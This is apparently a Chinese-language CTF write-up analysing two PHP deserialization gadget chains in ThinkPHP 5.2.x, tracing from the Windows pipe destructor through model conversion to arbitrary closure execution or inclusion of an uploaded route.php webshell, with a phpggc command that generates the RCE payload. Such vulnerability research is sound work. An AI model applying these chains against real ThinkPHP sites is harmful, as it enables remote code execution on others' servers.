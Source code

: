 ```yaml
---
title: thinkphp v5.2.x 反序列化利用链挖掘
tags: 
  - cms
categories: codereview
date: 2019-09-10 12:59:00
---
```

## 0x00 前言

上周参与了N1CTF，里面有一道关于thinkphp5的反序列化漏洞的利用。记录一下关于该反序列化的利用链分析。
<!-- more -->

后文主要包括两条链的利用分析（一条是我找的，也是题目的预期解，另一条是wonderkun师傅找的非预期解）

## 0x01 环境准备

这里就不直接用题目的环境了，采用composer直接安装5.2.*-dev版本

```bash
composer create-project topthink/think=5.2.x-dev v5.2
```

## 0x02 利用链分析

### 背景回顾

tp5在我印象里反序列化的利用链存在一个Windows类的任意文件删除，但是在[这篇文章]([https://blog.riskivy.com/%E6%8C%96%E6%8E%98%E6%9A%97%E8%97%8Fthinkphp%E4%B8%AD%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%88%A9%E7%94%A8%E9%93%BE/](https://blog.riskivy.com/挖掘暗藏thinkphp中的反序列利用链/))的启示下，也算是找到了一条新的路（关于`__toString`的触发方式，除了字符串拼接的方式，还可以利用PHP自带函数参数的强制转换）。

这篇文章的利用链最后用到了5.1.37版本`think/Request.php`的 `__call`函数，该函数的调用函数名可控，所以可以导致任意调用其他的类函数。而在5.2.x版本不存在这样的一个`__call`函数，这意味着我们需要重新找一个最终达成命令执行的函数调用（`__call`函数前的利用链仍然可用）。

那么接下来，我们来看看5.2.x新的利用链吧：）

### think/model/concern/Attribute.php getValue可函数动态调用函数（题目的预期解）

由于5.1.37`__call`函数前的利用链仍然存在于5.2.x版本，这里就不再详述了。

先来看一下Conversion类的toArray函数

```php
public function toArray(): array
{
    // ...
    // 合并关联数据
    $data = array_merge($this->data, $this->relation);

    foreach ($data as $key => $val) {
        if ($val instanceof Model || $val instanceof ModelCollection) {
            // ...
        } elseif (isset($this->visible[$key])) {
            $item[$key] = $this->getAttr($key);// relation和visible存在同一个key就行
        // ...
    }

    // ...
```

去掉了无关的代码，这里`$this->visible`、`$this->relation`均可控，可伪造数据进入`getAttr`函数

```php
public function getAttr(string $name)
{
    // ...
    return $this->getValue($name, $value, $relation);
}

protected function getValue(string $name, $value, bool $relation = false)
{
  // 检测属性获取器
  $fieldName = $this->getRealFieldName($name);// 直接返回$name的值
	// ...
  if (isset($this->withAttr[$fieldName])) {
    // ...
    $closure = $this->withAttr[$fieldName]; // withAttr内容可控
    $value   = $closure($value, $this->data); // 动态调用函数
	  // ...
```

直接关注`getValue`函数，该函数可动态调用函数，并且调用函数、函数参数均可控。所以接下来有两种方法，第一种是找一个符合条件的php函数，另一种是利用tp自带的SerializableClosure调用，来看一下第二种。

[\Opis\Closure](https://github.com/opis/closure)可用于序列化匿名函数，使得匿名函数同样可以进行序列化操作。这意味着我们可以序列化一个匿名函数，然后交由上述的`$closure($value, $this->data)`调用执行。

```php
$func = function(){phpinfo();};
$closure = new \Opis\Closure\SerializableClosure($func);
$closure($value, $this->data);// 这里的参数可以不用管
```

以上述代码为例，将调用phpinfo函数。

到此为止，我们分析完了整一个调用流程，回顾一下

1. `vendor/topthink/framework/src/think/process/pipes/Windows.php`
	 `__destruct` ->` removeFiles` ->` file_exists` 强制转化字符串`filename`，这里的`filename`可控
	可触发`__toString`函数，下一步找可利用的`__toString`
2. `vendor/topthink/framework/src/think/model/concern/Conversion.php`
	`__toString` -> `toJson` -> `toArray`创造符合条件的`relation`和`visible`-> `getAttr`
	下一步调用`vendor/topthink/framework/src/think/model/concern/Attribute.php`的`getValue`函数
3. `vendor/topthink/framework/src/think/model/concern/Attribute.php`
  `getValue` -> `$closure`动态调用函数，且该内容可控
  下一步利用有两种，一种找符合的php函数，另一种利用tp自带的`SerializableClosure`调用
4. `vendor/opis/closure/src/SerializableClosure.php`
  构造可利用的匿名函数

我把exp集成到了[phpggc](https://github.com/wh1t3p1g/phpggc)上，使用如下命令即可生成

```bash
./phpggc -u ThinkPHP/RCE1 'phpinfo();'
```

这里由于用到了SerializableClosure，需要使用编码器编码，不可直接输出拷贝利用。

### think/Db.php __call函数可实例化任意类（题目的非预期解）

前面说到5.1.37版本的利用链的`__call`函数，在5.2.x版本没办法用了。但是从`__destruct`到`__call`的链路是通的，我们只需要重新找一个可用的`__call`函数即可。

来看一下`vendor/topthink/framework/src/think/Db.php`的`__call`函数

```php
public function __call($method, $args)
{
    $class = $this->config['query'];

    $query = new $class($this->connection);

    return call_user_func_array([$query, $method], $args);
}
```

`$this->config`和`$this->connection`均可控，这意味着我们可以实例化任意符合条件的类，这里找了`think\Url`

```php
public function __construct(App $app, array $config = [])
{
    $this->app    = $app;
    $this->config = $config;

    if (is_file($app->getRuntimePath() . 'route.php')) {
        // 读取路由映射文件
        $app->route->import(include $app->getRuntimePath() . 'route.php');
    }
}
```

该构造器引入了RuntimePath下的route.php文件，因为这道题是允许上传文件的，所以只要在可上传的目录下上传一个route.php的webshell即可。至于RuntimePath，`$app`为可控变量，直接修改`$runtimePath`的内容即可。

我们直接构造App对象为

```php
class App{

    protected $runtimePath;
    public function __construct(string $rootPath = ''){
        $this->rootPath = $rootPath;
        $this->runtimePath = "/tmp/";
        $this->route = new \think\route\RuleName();
    }
}
```

这个构造思路太溜了，膜一波：）

整理一下过程

1. `vendor/topthink/framework/src/think/process/pipes/Windows.php`
   `__destruct` ->` removeFiles` ->` file_exists` 强制转化字符串`filename`，这里的`filename`可控
   可触发`__toString`函数，下一步找可利用的`__toString`
2. `vendor/topthink/framework/src/think/model/concern/Conversion.php`
   `__toString` -> `toJson` -> `toArray `->`appendAttrToArray`->`$relation`调用不存在的函数，触发`__call`
3. `vendor/topthink/framework/src/think/Db.php`
   `__call` -> `new $class($this->connection)` 调用任意类的`__construct`函数
4. `vendor/topthink/framework/src/think/Url.php`
   构造App类，达到`include`任意文件的效果